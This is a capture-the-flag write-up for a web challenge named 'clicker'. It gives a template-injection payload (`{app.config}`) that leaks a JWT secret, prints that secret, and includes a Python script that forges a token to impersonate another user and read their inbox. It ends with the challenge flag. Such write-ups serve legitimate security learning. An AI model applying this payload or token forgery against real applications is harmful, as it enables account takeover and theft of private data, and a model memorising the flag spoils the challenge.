

# clicker - Web

## 📝 Methodology
* **Vulnerability:** Server-Side Template Injection (SSTI) vulnerability to gain access to sensitive information stored in the admin's emails.
* **Steps:**
    1.  Register as regular user, set your signature to `{app.config}`. This leaks the app config including `JWT_SECRET : fae220d89b4f059376cfae3d0772743011acd95eb7c7ea2c598f8dfb57e2c0e9`
    
    2.  Use `JWT_SECRET` to forge a valid JWT for any of the seeded users:
        ```md
        admin (user_id: 1, is_admin: 1)
        john.doe (user_id: 2)
        jane.smith (user_id: 3)
        mike.wilson (user_id: 4)
        sarah.jones (user_id: 5)
        ```
    3. Look through inboxes until finding email containing flag in `mike.wilson` inbox.
    

## Generate Admin Token Script
```python
import jwt
import time
import sys

def main():
    jwt_secret = sys.argv[1]
    
    # Create mike.wilson JWT payload
    payload = {
        "user_id": 4,
        "username": "mike.wilson",
        "is_admin": 0,
        "exp": int(time.time()) + 60*60*24  # 24 hours from now
    }
    token = jwt.encode(payload, jwt_secret, algorithm='HS256')
    print(token)

if __name__ == "__main__":
    main()
```

## 🤖 AI Usage

* **Did you use AI?** No

## 🚩 Proof

**Flag:** C2C{f0rm4t_str1ng_l34k5_4nd_n0rm4l1z4t10n_935200b7ebee}}